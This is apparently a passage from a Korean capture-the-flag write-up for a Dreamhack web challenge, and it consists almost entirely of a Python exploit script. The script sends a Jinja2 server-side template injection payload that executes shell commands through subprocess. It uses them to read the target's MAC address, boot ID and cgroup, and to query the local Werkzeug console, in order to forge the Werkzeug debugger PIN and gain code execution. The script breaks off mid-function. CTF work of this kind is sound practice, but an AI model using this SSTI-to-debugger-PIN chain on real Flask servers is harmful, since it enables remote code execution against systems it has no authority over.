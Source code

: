 #### 익스플로잇 코드

```
import requests
from itertools import chain
import hashlib
import requests
import sys
import re
import urllib

URL = "http://host1.dreamhack.games:14841/"

def ssti(cmd):
    res = requests.get(f"{URL}%7B%7B%20''.__class__.__mro__[1].__subclasses__()[398](%22{cmd}%22,shell=True,stdout=-1).communicate()%20%7D%7D")
    return res.text

def secret():
    s = ssti("curl localhost:8000/console")
    s_ = re.findall("[0-9a-zA-Z]{20}",s)
    return s_[0]

def get_uuid_node():
    u = ssti("cat /sys/class/net/eth0/address")
    u_ = re.search(r"([0-9a-fA-F]{2}(:[0-9a-fA-F]{2}){5})", u)
    u1 = u_.group(1)
    return int(u1.replace(":", ""), 16)

def get_machine_id():
    t = ssti("cat /proc/sys/kernel/random/boot_id").split("(b&#39;")[1].split("\\n")[0]
    t1 = ssti("cat /proc/self/cgroup").split("/")[2].split("\\n")[0]
    #match = re.search(r"[0-9a-fA-F]{8}-[0-9a-fA-F]{4}-[0-9a-fA-F]{4}-[0-9a-fA-F]{4}-[0-9a-fA-F]{12}", t)
    #match = t.split("(b&#39;")[1].split("\\n")[0]
    return t + t1

def generate_pin():
    probably_public_bits = [
        'root',
        'flask.app',
        'Flask',
        '/usr/local/lib/python3.8/site-packages/flask/app.py',
    ]
    
    private_bits = [str(get_uuid_node()), get_machine_id()] 

    rv = None
    num = None

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode()
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = f"__wzd{h.hexdigest()[:20]}"

    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]
```